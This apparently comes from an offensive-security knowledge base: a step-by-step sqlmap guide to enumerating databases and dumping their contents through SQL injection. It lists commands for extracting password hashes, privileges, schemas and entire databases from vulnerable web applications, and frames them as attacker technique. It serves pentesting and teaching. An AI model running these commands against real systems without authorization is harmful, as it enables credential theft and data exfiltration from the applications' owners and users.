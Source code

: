 ```yaml
---
title: SQLMap Enumeration & Dumping Guide for Databases
description: Learn to use SQLMap for database enumeration and data extraction via
  SQL injection. Includes step-by-step commands and techniques.
keywords:
- SQLMap
- SQL injection
- database enumeration
- data dumping
- database security
- DBA privileges
- database schema
- credential extraction
- data exfiltration
---
```


# Enumeration & Dumping

## Context

This guide details the offensive technique of database enumeration and data dumping using SQL injection, specifically with sqlmap. Through this process, attackers identify and extract database structures and contents from vulnerable web applications. Assumed knowledge includes understanding of database schemas, writing SQL queries, and crafting HTTP requests.

## Theory

### Database Enumeration with SQL Injection

Database enumeration is the process of identifying database structures and entities through SQL injection. By exploiting poorly secured SQL queries that interact with user inputs, attackers can inject malicious SQL code to extract information such as database metadata, table structures, and user privileges.

### Sqlmap Enumeration Capabilities

Sqlmap is a powerful open-source tool that automates the detection and exploitation of SQL injection flaws, facilitating database enumeration. It leverages SQL injection to systematically gather database metadata and data without requiring extensive manual interventions. Sqlmap's capabilities cover a wide range of enumeration tasks, making it indispensable for offensive operations targeting databases.

### Data Dumping Techniques

Data dumping refers to extracting and saving database contents to a local machine. Using sqlmap, attackers can perform comprehensive data exfiltration, retrieving entire tables or databases efficiently. This technique is crucial in offensive cybersecurity for obtaining valuable information from compromised systems.

## Practice

### Enumerate Current User

Use the following command to identify the current database user.

```bash
sqlmap -u <URL> --current-user
```

Outcome: The current database user executing queries is identified.

### Check DBA Status

Determine if the current user has DBA privileges with this command:

```bash
sqlmap -u <URL> --is-dba
```

Outcome: The DBA status of the current user is determined, which can lead to privilege escalation.

### Retrieve Hostname

To get the database server's hostname, execute:

```bash
sqlmap -u <URL> --hostname
```

Outcome: The hostname of the database server is retrieved, providing further network insights.

### Enumerate Database Users

List all database users with the following command:

```bash
sqlmap -u <URL> --users
```

Outcome: Database users are enumerated, revealing potential targets and accounts.

### Dump User Passwords

Extract hashed passwords of database users using:

```bash
sqlmap -u <URL> --passwords
```

Outcome: Database user passwords are dumped, aiding in credential extraction activities.

### Enumerate User Privileges

Uncover privileges for each database user by running:

```bash
sqlmap -u <URL> --privileges
```

Outcome: User privileges are enumerated, showcasing the potential access level of each user.

### Enumerate Databases

Use this command to list all databases on the server:

```bash
sqlmap -u <URL> --dbs
```

Outcome: Databases are enumerated, giving a high-level view of the server's data assets.

### Enumerate Tables

To list tables in a specific database, use:

```bash
sqlmap -u <URL> -D <database> --tables
```

Outcome: Tables within the specified database are identified.

### Enumerate Columns

Identify columns in a specific table with:

```bash
sqlmap -u <URL> -D <database> -T <table> --columns
```

Outcome: Columns within the specified table are listed, aiding targeted data extraction.

### Dump Table Data

Extract all data from a specific table using this command:

```bash
sqlmap -u <URL> -D <database> -T <table> --dump
```

Outcome: Data from the specified table is successfully dumped.

### Full Database Dump

For extracting all data from all databases, execute:

```bash
sqlmap -u <URL> --dump-all
```

Outcome: All database data is dumped, providing full access to the stored information.

### Enumerate Database Schema

Retrieve the database schema with:

```bash
sqlmap -u <URL> --schema
```

Outcome: The database schema is enumerated, revealing structural layout.

### Count Records in Table

Count records in a specific table using:

```bash
sqlmap -u <URL> -D <database> -T <table> --count
```

Outcome: The record count in the specified table is retrieved, indicating the size of data present.

### Search for Specific Data

Search for specific data in a column with:

```bash
sqlmap -u <URL> --search -C <column> -T <table> -D <database>
```

Outcome: Specific data is searched and retrieved according to query criteria.

### Use Pivot Column

Leverage a pivot column for data extraction with:

```bash
sqlmap -u <URL> --pivot-column=<column>
```

Outcome: Data is extracted using the pivot column, optimizing retrieval processes.

### Exclude System Databases

Exclude system databases from enumeration by running:

```bash
sqlmap -u <URL> --exclude-sysdbs
```

Outcome: System databases are ignored during enumeration, focusing the attack on user-created databases only.

## Tools

- **sqlmap**

Sqlmap streamlines SQL injection identification and exploitation, offering a robust suite of features for automated database enumeration and data dumping.